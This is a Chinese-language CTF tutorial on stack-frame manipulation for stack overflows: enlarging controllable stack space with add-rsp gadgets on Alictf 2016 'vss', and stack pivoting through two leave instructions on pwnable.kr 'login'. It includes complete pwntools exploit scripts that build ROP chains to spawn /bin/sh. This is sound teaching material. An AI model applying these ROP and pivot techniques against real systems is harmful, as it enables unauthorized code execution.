# 调整栈帧的技巧

在栈溢出相关问题上，可能会遇到溢出的字节数太小，ASLR导致的栈地址不可预测等问题。针对这些问题，我们有时候需要通过`gadgets`调整栈帧以完成攻击。常用的思路包括加减esp值，利用部分溢出字节修改ebp值并进行`stack pivot`等。

## 修改esp扩大栈空间

例，~/Alictf 2016-vss/vss
因为程序是静态编译，而且用了strip剥离符号，IDA载入后程序看起来很乱，我们先用一个简单的c程序静态编译后然后strip去掉符号，对比来看一下：

```shell
gcc -static -o test test.c

strip test

```

通过file命令可以查看文件的一些相关信息



我们对比一下剥离后和未剥离的程序：



可以发现其实差别就在于没有了函数名(单单只比较start处)，所以我们可以以此来找到程序的主函数：



进入主函数之后，根据函数sub_4374E0()的函数体可以推测应该是alarm()函数，sub_408800()则为puts函数，猜测sub_437EA0()为read()函数，sub_40108E()用于对输入的处理和判断，将它更名为verify。




接下来在verify处下断，步入分析一下函数功能




因为有strnpy，所以我们可以通过输入构造溢出劫持verify的ret然后常规构造ROP链。进入到read函数我们可以发现是通过syscall来实现read函数的功能的。



ROP链中除了read函数读取"/bin/sh"之外，还需要execve来执行它，64位环境下syscall由rax传递系统调用号，sys_execve的系统调用号为59(0x3B),sys_execve需要的参数：

```c++
sys_execve(char __user *,
  char __user *__user *,
  char __user *__user *,
  struct pt_regs *,)
// 第一个参数为传入的指令，即"/bin/sh"
// 调用示例(仅用汇编表示，并没有考虑语法正确性）：
    mov rdi,"/bin/sh"
    mov rax,59
    mov rsi,0
    mov rdx,0
    syscall
```

常规的ROP链构造需要解决的问题解决了，接下来就是解决如何劫持RIP到我们构造的ROP链，调试(或者通过汇编代码查看strncpy传入的参数：`mov edx,50h`)我们可以发现strncpy会复制我们输入内容的前0x50个字节，也就是说我们需要构造`py+0x48*'A'`来构造一个可控的溢出(字符串中不能有'\x00'因为会被strncpy截断，从而造成构造失败)。因为在main函数中的read函数限制输入长度为0x400，这意味着我们可以构造一个很长的输入而且read函数可以读取'\x00'。接下来我们就可以在verify的溢出点放置增加esp的指令，使verify函数执行结束后esp指向我们构造的ROP链。

脚本如下：

```python
    #!/usr/bin/python
    #coding:utf-8

    from pwn import *

    p = process('./vss')

    payload = ""
    payload += p64(0x6161616161617970)  #头两位为py,p64的结果长度为0x10(8字节)
    payload += 'a'*0x40
    payload += p64(0x46f205)  #add rsp, 0x58; ret，这里也可以是0x4167c3(add rsp, 0x70; pop rbx; ret)，或者其他抬升栈顶的指令，只要抬升字节大于等于0x50即可，然后根据抬升空间设置填充数据的大小
    payload += 'a'*8  #padding，因为rsp抬升了0x58，但是前面的数据为0x10+0x40=0x50,所以这里需要填充8字节的数据，才能使rsp指向我们构造的ROP链
    payload += p64(0x43ae29)  #pop rdx; pop rsi; ret 为sys_read设置参数
    payload +=p64(0x8)  #rdx = 8
    payload += p64(0x6c7079)  #rsi = 0x6c7079
    payload += p64(0x401823)  #pop rdi; ret 为sys_read设置参数
    payload += p64(0x0) #rdi = 0
    payload += p64(0x437ea9)  #mov rax, 0; syscall 调用sys_read
    payload += p64(0x46f208)  #pop rax; ret,设置sys_execve的系统调用号
    payload += p64(59)  #rax = 0x3b
    payload += p64(0x43ae29)  #pop rdx; pop rsi; ret 为sys_execve设置参数
    payload += p64(0x0) #rdx = 0
    payload += p64(0x0) #rsi = 0
    payload += p64(0x401823)  #pop rdi; ret 为sys_execve设置参数
    payload += p64(0x6c7079)  #rdi = 0x6c7079
    payload += p64(0x437eae)  #syscall

    print p.recv()
    p.send(payload)
    sleep(1)
    p.send('/bin/sh\x00')
    p.interactive()

```

## 栈帧劫持stack pivot

通过可以修改esp的`gadget`可以绕过一些限制，扩大可控数据的字节数，但是这种方式并不能得到一个完全可控的栈。这时候就需要用到`stack pivot`了。
`stack pivot`主要是通过leave指令来完成对栈的劫持。先了解一下`leave`的效果，这条指令等价于`mov esp,ebp; pop ebp`。我们可以通过两次`leave`指令，来将ebp转化为esp，下面通过`~/pwnable.kr-login/login`说明。
程序逻辑比较简单，而且预留了后门程序。

```c++
  int __cdecl main(int argc, const char **argv, const char **envp)
  {
    int v4; // [esp+18h] [ebp-28h]
    char s; // [esp+1Eh] [ebp-22h]
    unsigned int v6; // [esp+3Ch] [ebp-4h]

    memset(&s, 0, 0x1Eu);
    setvbuf(stdout, 0, 2, 0);
    setvbuf(stdin, 0, 1, 0);
    printf("Authenticate : ");
    _isoc99_scanf("%30s", &s);
    memset(&input, 0, 0xCu);
    v4 = 0;
    v6 = Base64Decode(&s, &v4);
    if ( v6 > 0xC )
    {
      puts("Wrong Length");
    }
    else
    {
      memcpy(&input, v4, v6);
      if ( auth(v6) == 1 )
        correct();
    }
    return 0;
  }

  _BOOL4 __cdecl auth(int a1)
  {
    char v2; // [esp+14h] [ebp-14h]
    char *s2; // [esp+1Ch] [ebp-Ch]
    int v4; // [esp+20h] [ebp-8h]

    memcpy(&v4, &input, a1);
    s2 = (char *)calc_md5(&v2, 12);
    printf("hash : %s\n", (char)s2);
    return strcmp("f87cd601aa7fedca99018a8be88eda34", s2) == 0;
  }
```

调试我们发现并不能通过输入产生溢出进而劫持eip，但是auth函数结束到main函数结束，会经历两个leave



我们先看第一次执行leave，第一次执行结束后，ebp的内容为ret上一个字节的内容：



接着执行retn(即函数执行结束，此时esp和ebp的值并不会改变)。返回到调用者函数继续执行指令(正常情况下，过程中esp的值和ebp的值不变)，到达leave指令时：



从以上过程我们可以看到，虽然不能通过溢出劫持eip，但是我们可以通过两次leave来将ebp转化为esp，从而达到劫持栈的目的。所以我们可以构造一个输入，来达到这个目的：
`payload = "aaaa" + p32(0x08049284) + p32(0x0811eb40)`,其中`0x08049284`是执行`system("/bin/sh")`的地址， `0x0811eb40`是程序中input变量的.bss段首址



第一次执行leave时，将`.bss`段(&input)的地址放到ret前，使指令结束后ebp指向.bss段。然后第二次执行leave指令时，就可以将esp指向`.bss`段的首址，然后leave执行结束后，`esp+4`指向我们布置的`system("/bin/sh")`。到此，就达到了将ebp转换为esp从而劫持栈的目的。
完整脚本如下：

```python
  #! /bin/usr/python
  # coding=utf-8

  from pwn import *
  from base64 import *

  p = process('./login')

  payload = "aaaa" + p32(0x08049284) + p32(0x0811eb40)
  payload = b64encode(payload)

  p.sendline(payload)
  p.interactive()
```
